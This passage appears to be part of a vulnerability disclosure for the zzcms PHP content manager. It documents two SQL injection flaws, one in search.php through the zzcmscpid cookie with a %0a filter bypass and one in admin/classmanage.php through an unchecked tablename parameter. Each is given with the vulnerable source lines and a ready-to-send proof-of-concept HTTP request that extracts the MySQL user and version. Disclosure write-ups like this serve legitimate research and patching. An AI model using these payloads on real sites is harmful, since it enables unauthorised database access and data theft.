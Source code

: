 use %0a to bypass str_replace %20 and '(' to close sql expression.

```http
GET /zs/search.php HTTP/1.1
Cookie: zzcmscpid=1,1) union%0aselect%0auser(),1,version(;
Connection: close

```

get the current user of mysql:

![image-20180915224537685](/Users/kunkun/Library/Application Support/typora-user-images/image-20180915224537685.png)

------

## 6. SQL Injecton in admin/classmanage.php with SESSION tablename [need admin user login]

first find an sql expression in admin/classmanage.php using $_GET parameter tablename without any checking:

bettween line 1 and 5 in classmanage.php

```php
<?php
include("admin.php");
if (isset($_GET['tablename'])){
$_SESSION['tablename']=$_GET['tablename'];
}
```

the function showtag() has execute the sick sql expression bettween line 47 and 51:

```php
function showtag(){
$action=isset($_REQUEST['action'])?$_REQUEST['action']:'';
if ($action=="px") {
$sql="Select * From ".$_SESSION['tablename']."";
$rs=query($sql);
```

so attacker could make poc like this:

```http
GET /admin/classmanage.php?action=px&tablename=zzcms_wangkanclass%20union%20select%20user(),version(),database() HTTP/1.1
Cookie: UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6; PHPSESSID=nm1mojm251p2urj1d36nlvrqk6
Connection: close

```

get the current user of mysql:

![image-20180916004242561](/Users/kunkun/Library/Application Support/typora-user-images/image-20180916004242561.png)

------
